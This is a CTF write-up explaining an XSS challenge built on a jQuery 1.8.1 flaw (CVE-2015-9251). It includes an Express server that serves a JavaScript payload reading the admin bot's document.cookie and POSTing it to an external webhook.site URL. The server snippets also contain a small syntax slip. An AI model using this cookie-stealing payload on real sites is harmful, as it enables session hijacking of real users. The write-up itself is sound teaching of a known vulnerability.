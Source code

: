 ```yaml
---
layout: post
current: post
cover:  assets/squ1rrel/kyleburgess2025/portrait/cover.webp
navigation: True
title: "Portrait"
date: 2025-04-06 11:59:00
tags: [squ1rrel, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


It's like DeviantArt, but with a report button to keep it less Deviant. *Reporting a gallery will make the admin bot visit it.*

Welcome to Portrait, the final challenge I wrote and my first XSS challenge. The idea for this challenge came from a super cool Canvas vuln I read about recently. This XSS vulnerability in the Canvas course software was found by Andrew Healey and can be read about [here](https://github.com/andrew-healey/canvas-lms-vuln). The vulnerability comes from an outdated version of JQuery being used - namely, 1.7.2, which has [this vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9251). The name of this challenge, Portrait, is a cheeky reference to the Canvas vulnerability.

# The Problem

Upon registering for an account, we are brought to a gallery where we can create new portraits, providing a name and a source URL for the image. The gallery also displays our previous portraits as a title and an image combination.

![image of gallery page](/assets/squ1rrel/kyleburgess2025/portrait/gallery.webp)
*if you're looking for a gallery curator, MoMA, hmu*

There is also a `/report` endpoint where you can give the admin bot a link to a gallery to visit; the flag will be stored in the cookies of the admin bot. The admin bot will only visit other pages on the Portrait website. Basically, we need to make a portrait that will cause the cookies of the admin bot to be leaked to us when the admin bot visits.

# Diving In

Let's take a look at the suspicious parts of the code.

First, at the top of `static/gallery.html`, we have the following:

```html
<script type="text/javascript" src="https://code.jquery.com/jquery-1.8.1.min.js"></script>
```

Sweet, an outdated version of JQuery! A quick Google of JQuery 1.8.1 leads us back to the [CVE](https://www.cvedetails.com/cve/CVE-2015-9251/) I mentioned earlier. Now, let's see how we can exploit it...

```js
$(document).ready(function () {
  const username = new URLSearchParams(window.location.search).get("username");
  $.ajax({
      url: "/api/portraits/" + username,
      type: "GET",
      success: function (data) {
          data.forEach(portrait => {
              const newImage = $("#portraitsContainer").append(`
                  <div class="col-md-4 mb-4">
                      <div class="card shadow-sm">
                          <img src="${portrait.source}" class="card-img-top" alt="${portrait.name}">
                          <div class="card-body text-center">
                              <h5 class="card-title">${portrait.name}</h5>
                          </div>
                      </div>
                  </div>
              `);
              newImage.find("img").last().on("error", e => {
                  $.get(e.currentTarget.src).fail(response => {
                      if (response.status === 403) {
                          $(e.target).attr("src", "https://cdn.pixabay.com/photo/2021/08/03/06/14/lock-6518557_1280.png");
                      } else {
                          $(e.target).attr("src", "https://cdn.pixabay.com/photo/2024/02/12/16/05/siguniang-mountain-8568913_1280.jpg");
                      }
                  })
              })
          });
      }
  });
  // ...
});
```

Ok, first off, we have `$.ajax` being called without the `dataType` option, which is a red flag. However, on success, the data retrieved from the URL is put into an `img` source, so any scripts returned won't be run. Let's look instead at the error handling. If an `img` element has an error, a request is made to the image source and the error code is checked to see which placeholder image should be used.

However, the JQuery CVE we discussed before mentioned that if `dataType` is not specified and Javascript is returned, the script will automatically be run on the client's computer. Thus, if we can deploy a server that serves Javascript instead of an image and make it the source for one of our portraits, we should get XSS! Let's try:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    alert("XSS");
})();
`;

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

Using you favorite quick-deploy service (I used Cloudflared, since it doesn't have an interstitial that checks if you're human), we can get a public URL that we can use as the image source. Let's try this out:

![image of gallery page with xss](/assets/squ1rrel/kyleburgess2025/portrait/xss.webp)

Beautiful. Now, let's change the payload:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    const cookies = document.cookie;
    const url = "https://webhook.site/91c39d9c-76da-4ced-9624-96700b8ad703";

    fetch(url, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "cookies=" + encodeURIComponent(cookies)
    });
})();
`

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

After deploying with Cloudflared and reporting the link to my account (`http://{CHALLENGE_IP}/gallery?username={ACCOUNT_NAME}`), our Webhook gets pinged!

![image of a Webhook request](/assets/squ1rrel/kyleburgess2025/portrait/webhook.webp)

Flag: `flag=squ1rrel{unc_s747us_jqu3ry_l0wk3y_take_two_new_flag_check_this_out_guys}`
